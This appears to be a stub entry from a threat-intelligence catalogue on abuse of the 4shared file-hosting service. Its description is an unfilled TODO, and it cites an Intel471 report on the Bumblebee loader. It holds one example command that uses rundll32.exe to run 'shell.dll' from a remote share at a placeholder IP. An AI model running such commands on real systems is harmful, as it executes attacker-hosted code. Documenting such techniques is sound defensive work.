 # 4shared

TODO: Fill in this info

```
C:\> rundll32.exe \\<4shared_IP>\shell.dll,Main
```

---
## References

- [Bumblebee Loader Resurfaces in New Campaign](https://intel471.com/blog/bumblebee-loader-resurfaces-in-new-campaign)